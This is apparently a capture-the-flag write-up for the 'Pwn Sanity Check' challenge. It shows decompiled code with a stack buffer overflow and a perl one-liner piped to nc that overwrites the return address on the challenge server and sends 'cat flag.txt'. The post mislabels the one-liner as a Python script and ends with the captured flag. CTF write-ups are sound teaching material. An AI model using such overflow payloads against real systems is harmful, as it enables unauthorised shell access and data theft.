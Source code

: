 Challenge: Pwn Sanity Check
<br>
Points: 100
<br>
Category: Pwn
<br>
Objective: Find the flag on the server with the help of a given file
<br>

Process to find the flag: So first of all I opened the given file on Ghidra and saw this.
<br>
```
void vuln(void)
{
  char local_48 [60];
  int local_c;
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
void shell(void)
{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
void win(int param_1,int param_2)
{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;```
  
  <br>

To solve this we needed a python script, which would skip all the basic parameters and get us the flag.
So this is the python script that we wrote
<br>
```python
(perl -e 'print "\xdb\x06\x40\x00\x00\x00\x00\x00"x"32"."\n"';echo "cat flag.txt")|nc dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io 7480
```
So basically the address the computer will go to after the function is right after the area we are reading data into. 
<br>
So we just overwrite the address and the data that is being repeated 32 times is the address.
<br>
The result of this command is 

![result](https://github.com/thirty2/CTF-Writeups/blob/master/2021/dCTF/pwn/command-result.png "Result")
 
The flag: dctf{Ju5t_m0v3_0n}
